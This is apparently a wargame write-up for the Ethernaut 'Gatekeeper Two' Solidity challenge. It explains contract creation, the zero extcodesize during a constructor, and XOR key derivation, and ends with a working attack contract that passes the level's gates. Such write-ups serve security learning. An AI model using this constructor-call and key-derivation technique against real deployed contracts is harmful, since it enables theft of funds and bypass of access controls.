

# Day 13 - Gate Keeper (2)

## Inner workings of contract creation

The [Ethereum yellow paper](https://ethereum.github.io/yellowpaper/paper.pdf) formally denotes contract creation as:



**Here’s a simplified flow of how contracts are created and what these variables mean:**

1. First, a transaction to create a contract is sent to the Ethereum network. This transaction contains input variables, notably:

- **Sender (s)**: this is the address of the immediate contract or external wallet that wants to create a new contract

- **Original transactor (o)**: this is the original external wallet (a user) who created the contract. Notice that o != s if the user used a factory contract to create more contracts

- **Available gas (g)**: this is the user specified, total gas allocated for contract creation

- **Gas price (p)**: this is the market rate for a unit of gas, which converts the transaction cost into Ethers

- **Endowment (v)**: this is the value (in Wei) that’s being transferred to seed this new contract. The default value is zero

- **Initialization EVM code (i)**: this is everything inside your new contract’s constructor function and the initialization variables, in bytecode format

2. Second, based on just the transaction’s input data, the new contract’s designated address is (pre)calculated. At this stage, the input state values are modified, but the new contract’s state is still empty.

3. Third, the initialization code kickstarts in the EVM and creates an actual contract.

4. During the process, state variables are changed, data is stored, and gas is consumed and deducted.

5. Once the contract finishes initializing, it stores its own code in association with its (pre)calculated address.

6. Finally, the remaining gas and a success/failure message is asynchronously returned to the sender s.

**Hint:** Notice that up until step 5, no code previously existed at the new contract’s address!

## Bitwise Operations

- &: and(x, y) bitwise and of x and y; where 1010 & 1111 == 1010
- |: or(x, y) bitwise or of x and y; where 1010 | 1111 == 1111
- ^: xor(x, y) bitwise xor of x and y; where 1010 ^ 1111 == 0101
- ~: not(x) bitwise not of x; where ~1010 == 0101

### Notice

- If A xor B = C, then A xor C = B
- In Solidity, exponentiation is handled by \*\*, not ^

## Solution

When first deploy a contract, the `extcodesize` of that address is 0 until the constructor is completed

```js
pragma solidity ^0.6.0;

contract AttackGatekeeperTwo {

    constructor(address _victim) public {
        bytes8 _key = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ uint64(0) - 1);
        bytes memory payload = abi.encodeWithSignature("enter(bytes8)", _key);
        (bool success,) = _victim.call(payload);
        require(success, "failed somewhere...");
    }


    function passGateThree() public view returns(bool) {
        // if a ^ b = c then a ^ c = b;
        // uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) = uint64(0) - 1
        // therefore uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(0) - 1 = uint64(_gateKey)
        uint64 key = uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(0) - 1;
        return uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ key == uint64(0) - 1;
    }
}
```
